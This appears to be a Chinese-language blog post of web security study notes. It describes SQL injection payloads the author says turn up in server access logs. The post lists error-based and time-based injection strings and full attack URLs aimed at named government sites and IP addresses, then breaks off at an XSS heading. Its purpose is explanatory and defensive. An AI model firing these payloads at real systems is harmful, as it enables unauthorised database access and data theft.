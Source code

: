 ```yaml
---
title: "Web 安全基础学习"
date: 2022-05-11T16:46:47+08:00
draft: false
tags: ["网络安全"]
categories: ["学习记录"]
---
```


首先说下自己并不是专门做安全的，此次总结也确实是工作中遇到了这类问题需要解决

当然如果你自己有过搭建服务的经历，或许会在服务的访问记录中看到各种乱七八载的访问

如果有以下情况的话，就送他一个`iptables`套餐吧

## SQL注入

> SQL注入是一种代码注入技术，用于攻击数据驱动的应用程序。 在应用程序中，如果没有做恰当的过滤，则可能使得恶意的SQL语句被插入输入字段中执行（例如将数据库内容转储给攻击者）

报错注入

- extractvalue(1, concat(0x5c,(select user())))
- updatexml(0x3a,concat(1,(select user())),1)

```
http://ns2.stats.gov.cn/comment/api/index.php?gid=1&page=2&rlist%5B%5D=%40%60%27%60%2C+extractvalue%281%2C+concat_ws%280x20%2C+0x5c%2C%28select+md5%28202072102%29%29%29%29%2C%40%60%27%60

http://14.29.113.88:9292/api/sms_check.php?param=1%27+and+updatexml%281%2Cconcat%280x7e%2C%28SELECT+MD5%281234%29%29%2C0x7e%29%2C1%29--+
```

数据路检测（mysql）

- sleep：sleep(1) 让sql运行多少秒
- 字符串连接：SELECT CONCAT(’some‘, 'string')
- 报错注入：convert(int, (db_name()))
- 等等

```
http://218.13.13.90:8081/fsGovPlatform/js/(select(0)from(select(sleep(34)))v)%2f*'+(select(0)from(select(sleep(34)))v)+'""+(select(0)from(select(sleep(34)))v)+""*%2f/timepicker/jquery-ui-timepicker-addon.js

http://210.76.74.50/faq.php?action=grouppermission&gids%5B100%5D%5B0%5D=%29+and+%28select+1+from+%28select+count%28%2A%29%2Cconcat%28%28select+concat%28user%2C0x3a%2Cmd5%281234%29%2C0x3a%29+from+mysql.user+limit+0%2C1%29%2Cfloor%28rand%280%29%2A2%29%29x+from+information_schema.tables+group+by+x%29a%29%23&gids%5B99%5D=%27

http://xwrz.huizhou.gov.cn/invest-client/rzcs/index.html?assureType=123456&minBalance=convert%28int%2Csys.fn_sqlvarbasetostr%28HashBytes%28%27MD5%27%2C%271078491144%27%29%29%29&moneyrateStart=123456&type=123456
```

## XSS
